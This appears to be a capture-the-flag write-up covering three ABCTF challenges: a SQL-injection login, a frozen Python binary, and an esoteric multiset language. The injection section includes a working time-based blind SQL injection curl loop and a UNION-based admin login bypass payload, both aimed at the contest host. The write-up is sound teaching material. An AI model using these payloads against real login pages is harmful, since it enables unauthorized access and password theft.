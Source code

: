 ## Inj3ction - 170

You can do time-based blind sql injection:

``` sh
$ s=sn ; for c in {a..z} ; do echo -n $c ' ' ; curl http://yrmyzscnvh.abctf.xyz/injection3/login.php -F username=\'' OR (select if(exists (select * from users where password like "'$s$c'%"), sleep(1000), 0)) -- ' -F password=foo -F submit=Submit ; echo ; done
```

and you can login with username: `john` and password: `snout`. However this user is not an admin.
Also you can know that the `john/snout` is the only record for the table.

You need to make a new record, use `union`.
username: `baz' union select "foo",true,"bar",false -- ` and password: `bar` allow you to login as an admin. The last `false` is for a dummy column.

## Frozen Recursion - 250

The binary runs python interpreter internally.
It is created by [Freeze](https://wiki.python.org/moin/Freeze).
So you can use `PYTHONINSPECT` environment variable.

``` sh
$ export PYTHONINSPECT=t
$ ./recursive_python
You wish it was that easy!
>>> ^Z
zsh: suspended  ./recursive_python
$ strings unstep_f67baaeb | grep -o 'flag{.*}'
flag{python_taken_2_far}
```

(This problem is corrupted).

## QSet 1 - 100

### language specification

$\newcommand{\llbrace}{\\{\\!\\{}$
$\newcommand{\rrbrace}{\\}\\!\\}}$
$\newcommand{\lbracket}{\left[}$
$\newcommand{\rbracket}{\right]}$
It is an esoteric language for a counter machine.
The program is a sequence of pair of multiset of symbols.
For example, $\lbracket (\llbrace o_0 \\rrbrace, \llbrace i_0 \\rrbrace), (\llbrace o_0 \\rrbrace, \llbrace i_1 \\rrbrace) \rbracket$ (a program to add 2 inputs).

The semantic is like:

``` python
S = input : multiset<symbol>
while True:
    for (Y, X) : (multiset<symbol>, multiset<symbol>) in program:
        if X is a subset of S:
            S = S - X + Y
            break
    if S is not modified:
        break
output = S : multiset<symbol>
```
